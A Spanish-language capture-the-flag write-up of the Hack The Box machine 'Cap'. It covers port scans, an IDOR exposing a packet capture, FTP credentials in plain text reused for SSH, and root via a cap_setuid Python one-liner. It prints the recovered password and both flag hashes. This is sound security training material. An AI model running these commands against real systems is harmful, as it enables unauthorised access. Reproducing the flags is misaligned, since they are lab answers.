







#Hack The Box - Cap Writeup

* OS: Linux
* Dificultad:Easy
* IP de la Máquina: 10.129.88.34 
* Plataforma: Hack The Box (HTB)

---

Resumen 
Cap es una máquina Linux de dificultad fácil que demuestra los riesgos asociados con vulnerabilidades de control de acceso en aplicaciones web (IDOR), la transmisión de credenciales en protocolos no cifrados (FTP) y la mala configuración de permisos en ejecutables del sistema (*Linux Capabilities*).

---

1. Reconocimiento (Reconnaissance)

Escaneo Inicial de Puertos (Nmap)
Se comenzó con un escaneo rápido sobre el rango completo de puertos TCP (1-65535) para identificar los servicios abiertos en el objetivo:

bash
"nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.88.34 -oA scans/all_ports"

Resultado: Se detectaron 3 puertos TCP abiertos (21, 22 y 80).

Escaneo de Servicios y Versiones
Posteriormente, se ejecutó un escaneo dirigido a los puertos identificados para obtener la versión exacta de los servicios e información básica mediante scripts por defecto:

nmap -sCV -p21,22,80 10.129.88.34 -oA scans/targeted_services

Servicios Identificados:
* 21/tcp: FTP (vsFTPd 3.0.3)
* 22/tcp: SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.2)
* 80/tcp: HTTP (Gunicorn - Security Dashboard)

2. Explotación y Acceso Inicial (Foothold)
Enumeración Web y Detección de Vulnerabilidad IDOR
Al acceder al servicio web en el puerto 80, se observó un panel de administración titulado Security Dashboard. La aplicación cuenta con funcionalidades para capturar tráfico de red en formato .pcap.

Se realizó un escaneo de rutas en la aplicación mediante la herramienta ffuf para identificar patrones numéricos en las capturas guardadas en /data/:

"ffuf -u [http://10.129.88.34/data/FUZZ](http://10.129.88.34/data/FUZZ) -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -fs 208"

Hallazgo: Se identificó una vulnerabilidad de tipo IDOR (Insecure Direct Object Reference) en el parámetro de la URL /data/0, permitiendo acceder y descargar la primera captura de red (0.pcap) generada por el sistema.

Análisis de Tráfico de Red (Wireshark) y Captura de Credenciales
Se descargó el archivo 0.pcap desde la ruta /data/0 y se abrió en Wireshark. Tras analizar la secuencia de paquetes TCP/FTP, se observó que las credenciales de autenticación fueron transmitidas en texto plano sobre el protocolo FTP:

Usuario obtenido: nathan
Contraseña obtenida: Buck3tH4TF0RM3!

Autenticación en FTP y Acceso por SSH
Se probó la autenticación en el servicio FTP utilizando las credenciales encontradas:

"ftp nathan@10.129.88.34"

A continuación, validando la reutilización de credenciales, se logró el acceso mediante SSH al servidor como el usuario nathan:

ssh nathan@10.129.88.34

3. Escalada de Privilegios (Privilege Escalation)
Auditoría de Linux Capabilities
Una vez obtenida una shell interactiva como nathan, se procedió a enumerar los binarios del sistema que posean permisos o facultades especiales (Capabilities):

"getcap -r / 2>/dev/null"

Vulnerabilidad identificada:
El binario /usr/bin/python3.8 tiene asignada la capability cap_setuid,cap_net_bind_service+eip. La facultad cap_setuid le otorga al intérprete de Python la capacidad de cambiar su UID a 0 (root) sin necesidad de recurrir a SUID o elevación vía sudo.

Explotación y Obtención de Root
Consultando las técnicas de explotación para Capabilities en GTFOBins, se ejecutó una sentencia en Python para cambiar el ID de usuario a root (UID 0) y desplegar una consola privilegiada:

python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'

Confirmación de privilegios:
# whoami
root

Banderas Obtenidas:
User Flag (user.txt): 72924db756f11370b5c13a940e7e47b6
Root Flag (root.txt): 6bdfeefc9c2ed60b24bcef59824da63f

4.Matriz de Vulnerabilidades e Impacto

## Matriz de Vulnerabilidades e Impacto

| # | Vulnerabilidad | Clasificación | Impacto |
|---|---|---|---|
| **1** | **Insecure Direct Object Reference (IDOR)** | 🔴 **Alta** | Permite a un usuario no autenticado descargar capturas PCAP arbitrarias del servidor. |
| **2** | **Tráfico no cifrado (FTP en texto plano)** | 🟠 **Media** | Exposición de credenciales de usuario en las capturas de red. |
| **3** | **Reutilización de Credenciales** | 🟠 **Media** | La clave del servicio FTP fue reutilizada para la administración remota por SSH. |
| **4** | **Linux Capabilities inseguras (`cap_setuid`)** | 🔴 **Crítica** | Permite a cualquier usuario local escalar privilegios de forma instantánea a `root`. |
